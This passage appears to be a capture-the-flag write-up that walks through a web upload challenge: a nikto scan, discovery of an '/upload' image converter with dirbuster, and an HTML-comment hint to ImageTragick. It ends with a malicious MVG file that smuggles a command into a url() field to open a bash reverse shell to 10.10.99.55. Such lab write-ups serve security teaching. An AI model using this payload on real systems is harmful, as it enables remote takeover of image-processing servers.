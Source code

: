 ```
+ 6544 items checked: 0 error(s) and 1 item(s) reported on remote host
+ End Time:           2017-09-26 14:33:49 (GMT-4) (18 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

Using dirbuster with extensions disabled, we discover a `/upload` page. 

Browsing to it, it is an image upload form titled "Image Converter". Uploading anything but the intended exploit is futile here since you can't browse the uploads directory. One might think to use  `ImageTragick` , but if not, there is a hint in the HTML source in the page, hopefully obvious enough to guide someone toward ImageTragick:

```
<!--
                                 
                            g@@
        A.                 d@V@
        i@b               iA` @                    .A
        i@V@s            dA`  @                   ,@@i
        i@ '*@Ws______mW@f    @@                  ]@@@
         @]  '^********f`     @@@                g@!l@
         @b           .  ,g   @@@W             ,W@[ l@
         ]@   Mmmmmf  ~**f^   @@^@@Wm_.      _g@@`  l@
          M[    ^^      ^^    @@  ^*@@@@@@@@@@@f`   l@
          ]@i  '[]`  . '[]`   @@      ~~~~~~~`      l@
          '@W       |[        @@               _.   l@
           Y@i      'Ns    .  @@   _m@@m,    g*~VWi l@
            M@. ,.       g@` ]@@  gP    V,  '  m- ` l@
            '@W  Vmmmmmm@f   @@@. ~  m-    g   '    l@
             '@b  'V***f    g@A@W    '     @        l@
              '*W_         g@A`M@b       g M_.      l@
                'VMms___gW@@f   @@.      '- ~`      W@
                   ~*****f~`     @@.     ,_m@Ws__   @@
                                 '@@.   gA~`   ~~* ]@P
                                   M@s.'`         g@A
                                    V@@Ws.    __m@@A
                                      ~*M@@@@@@@@*`   (ASCII Art credit to David Laundra) 
-->

```

## Calvin

Upload a malicious mvg as documented here: <https://imagetragick.com/>


We'll set up a reverse shell, and upload our malicious mvg file: 

```
$ cat exploit.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|setsid /bin/bash -i >/dev/tcp/10.10.99.55/6661 0<&1 2>&1 &")'
pop graphic-context

```
